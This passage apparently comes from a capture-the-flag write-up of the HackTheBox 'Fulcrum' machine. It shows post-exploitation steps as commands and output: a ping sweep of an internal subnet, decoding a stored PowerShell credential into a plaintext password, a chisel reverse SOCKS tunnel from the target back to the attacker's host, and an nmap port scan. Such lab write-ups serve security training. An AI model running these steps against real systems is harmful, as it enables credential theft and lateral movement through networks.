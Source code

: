 This is a Powershell credential, and it can be decoded. This looked like Active Directory, and that there were other machines present. A quick check on `ip route` confirms this.

```
www-data@fulcrum:~/uploads$ ip route
default via 10.129.0.1 dev ens160 
10.129.0.0/16 dev ens160 proto kernel scope link src 10.129.136.254 
192.168.122.0/24 dev virbr0 proto kernel scope link src 192.168.122.1 
```

A quick `ping` sweep reveals there was only one other machine accessible:

```
$ for i in $(seq 254); do ping 192.168.122.$i -c1 -W1 & done | grep from
64 bytes from 192.168.122.1: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 192.168.122.228: icmp_seq=1 ttl=128 time=16.9 ms
```

I decoded this credential using `pwsh`. All you have to do is just run the entire script from `$1` to `$5`:

![](../../../.gitbook/assets/htb-fulcrum-image-8.png)

Then, use `$5.GetNetworkCredential().password`:

```
PS> $5.GetNEtworkCredential().password                                                     
M4ng£m£ntPa55
```

I  used `chisel` and `proxychains` to start pivoting:

```
On Fulcrum:
./chisel client 10.10.14.19:9050 R:socks

On Kali:
./chisel server --port 9050 --reverse
```

From here, I downloaded the `nmap` binary to scan the ports on that one machine that is reachable, just to see what protocol is to be used with the credentials.

```
$ ./nmap_binary -p- --min-rate 5000 192.168.122.228

Nmap scan report for 192.168.122.228
Host is up (0.022s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  unknown
```
